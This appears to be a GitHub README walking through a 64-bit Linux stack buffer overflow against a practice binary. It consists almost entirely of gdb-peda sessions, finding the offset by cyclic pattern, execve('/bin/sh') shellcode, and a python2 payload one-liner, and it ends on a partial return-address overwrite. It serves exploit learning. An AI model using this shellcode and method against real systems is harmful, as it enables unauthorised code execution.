 # buffer-overflow-linux-64-bit
buffer overflow linux 64 bit

gdb-peda$ file app
Reading symbols from app...

(No debugging symbols found in app)

gdb-peda$ 

gdb-peda$ run

Starting program: /home/kali/Desktop/Buffer_linux/app 
Oops, I'm leaking! 0x7fffffffe0c0
Pwn me ¯\_(ツ)_/¯ 
> 
gdb-peda$ disassemble main

______________________________________
┌─[kali@kali]─[~/Desktop/Buffer_linux]
└──╼ $python -c 'print "A"*300' > f
______________________________________
gdb-peda$ run < f

Starting program: /home/kali/Desktop/Buffer_linux/app < f

Oops, I'm leaking! 0x7fffffffe0c0

Pwn me ¯\_(ツ)_/¯ 

> 

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]

RAX: 0x0 

RBX: 0x0 

RCX: 0x7ffff7edef4e (<__GI___libc_read+14>:     cmp    rax,0xfffffffffffff000)

RDX: 0x0 

RSI: 0x7ffff7faea03 --> 0xfb1680000000000a

RDI: 0x7ffff7fb1680 --> 0x0 

RBP: 0x4141414141414141 ('AAAAAAAA')

RSP: 0x7fffffffe108 ('A' <repeats 200 times>...)

RIP: 0x40088e (<main+95>:       ret)

R8 : 0x7fffffffe0c0 ('A' <repeats 200 times>...)

R9 : 0x0 

R10: 0xfffffffffffff24a 

R11: 0x246 

R12: 0x4006a0 (<_start>:        xor    ebp,ebp)

R13: 0x0 

R14: 0x0 

R15: 0x0

EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)

[-------------------------------------code-------------------------------------]

   0x400883 <main+84>:  call   0x400650 <fgets@plt>
   
   0x400888 <main+89>:  mov    eax,0x0
   
   0x40088d <main+94>:  leave  
   
=> 0x40088e <main+95>:  ret    

   0x40088f:    nop
   
  
   0x400890 <__libc_csu_init>:  push   r15
   
   0x400892 <__libc_csu_init+2>:        push   r14
   
   0x400894 <__libc_csu_init+4>:        mov    r15d,edi

gdb-peda$run < pattern 

Starting program: /home/kali/Desktop/Buffer_linux/app < pattern

Oops, I'm leaking! 0x7fffffffe0c0

Pwn me ¯\_(ツ)_/¯ 

> 
Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]

RAX: 0x0 

RBX: 0x0 

RCX: 0xfbad20ab 

RDX: 0x0 

RSI: 0x7ffff7faea03 --> 0xfb16800000000025 

RDI: 0x7ffff7fb1680 --> 0x0 

RBP: 0x4141334141644141 ('AAdAA3AA')

RSP: 0x7fffffffe108 

("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A"...)

RIP: 0x40088e (<main+95>:       ret)

R8 : 0x7fffffffe0c0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)

gdb-peda$ pattern_search 

Registers contain pattern buffer:

RBP+0 found at offset: 64

Registers point to pattern buffer:

[RSP] --> offset 72 - size ~203

[R8] --> offset 0 - size ~203

Pattern buffer found at:

0x00007fffffffe0c0 : offset    0 - size  300 ($sp + -0x48 [-18 dwords])

# Linux/x86_64 execve("/bin/sh"); 30 bytes shellcode 

["\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"](http://shell-storm.org/shellcode/files/shellcode-603.php)

┌─[kali@kali]─[~/Desktop/Buffer_linux]
└──╼ $python2 -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+b"A"*42+"BBBBBB"' > ff

┌─[kali@kali]─[~/Desktop/Buffer_linux]
└──╼ $python2 -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+b"A"*42+"BBBBBB"' > ff

RSI: 0x7ffff7faea03 --> 0xfb1680000000000a 

RDI: 0x7ffff7fb1680 --> 0x0 

RBP: 0x4242424141414141 ('AAAAABBB')

RSP: 0x7fffffffe110 --> 0x7fffffffe1f8 --> 0x7fffffffe4df ("/home/kali/Desktop/Buffer_linux/app")

RIP: 0x7f000a424242 

R8 : 0x7fffffffe0c0 --> 0x91969dd1bb48c031

Stopped reason: SIGSEGV

0x00007f000a424242 in ?? ()



